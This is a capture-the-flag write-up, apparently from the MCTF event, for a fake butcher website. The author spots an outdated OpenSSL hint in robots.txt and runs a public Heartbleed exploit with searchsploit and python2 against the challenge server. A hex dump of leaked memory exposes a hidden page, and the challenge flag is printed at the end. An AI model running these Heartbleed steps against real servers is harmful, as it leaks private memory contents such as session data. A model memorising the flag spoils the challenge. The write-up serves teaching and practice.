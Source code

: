 # Saignant ma viande

## Description

> Une boucherie vend de la viande (qui a l'air très bonne) sur un site internet. Un hunter anonyme vous a transmis ce message : *Le site est bizarre et les commentaires aussi.... je suis sur qu'il cache une autre facette de vente.

Url : https://135.125.232.20:8443/

First thing when arriving on the website, the footer indicates

> This website is running since 2014.

and we are pompted to accept the signed certificate.

Navigating to `robots.txt` :

```html
User-Agent: *
Disallow: 

#To admin : We have to upgrade the version of openssl.
```

Seems like we will have to exploit an `openssl` CVE.

Using `searchsploit` to find the possible CVE exploit.

```bash
$ searchsploit openssl
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                                                                          | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                                                                           | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                                                                             | multiple/remote/32745.py
```

To download one of the scripts, you juste have to do so :

```bash
$ searchsploit -m exploits/multiple/remote/32745.py
```

And to use it :

```bash
$ python2 32745.py 135.125.232.20 -p 8443
```

Looking at the firsts frames, we can see something interesting :

```
  0100: 03 02 01 02 02 02 03 00 0F 00 01 01 3D 30 2E 38  ............=0.8
  0110: 0D 0A 41 63 63 65 70 74 2D 4C 61 6E 67 75 61 67  ..Accept-Languag
  0120: 65 3A 20 65 6E 2D 55 53 2C 65 6E 3B 71 3D 30 2E  e: en-US,en;q=0.
  0130: 35 0D 0A 41 63 63 65 70 74 2D 45 6E 63 6F 64 69  5..Accept-Encodi
  0140: 6E 67 3A 20 67 7A 69 70 2C 20 64 65 66 6C 61 74  ng: gzip, deflat
  0150: 65 2C 20 62 72 0D 0A 43 6F 6E 6E 65 63 74 69 6F  e, br..Connectio
  0160: 6E 3A 20 6B 65 65 70 2D 61 6C 69 76 65 0D 0A 52  n: keep-alive..R
  0170: 65 66 65 72 65 72 3A 20 68 74 74 70 73 3A 2F 2F  eferer: https://
  0180: 31 33 35 2E 31 32 35 2E 32 33 32 2E 32 30 3A 38  135.125.232.20:8
  0190: 34 34 33 2F 37 63 66 38 61 30 30 32 64 62 63 30  443/7cf8a002dbc0
  01a0: 38 63 33 66 33 31 61 63 61 36 31 39 31 34 31 64  8c3f31aca619141d
  01b0: 31 34 31 64 2F 0D 0A 55 70 67 72 61 64 65 2D 49  141d/..Upgrade-I
  01c0: 6E 73 65 63 75 72 65 2D 52 65 71 75 65 73 74 73  nsecure-Requests
```

A request to a page on the web server to this : `https://135.125.232.20:8443/7cf8a002dbc08c3f31aca619141d141d/`.

After navigating to the page, it appears to be mmm... a not so legal website where you can buy guns ...

The flag appears when you try to buy a gun.

> Wait for us to verify your identity. Here is your id : `MCTF{t0nt0n_fl1ngu3rs_g3t_pwn3d}`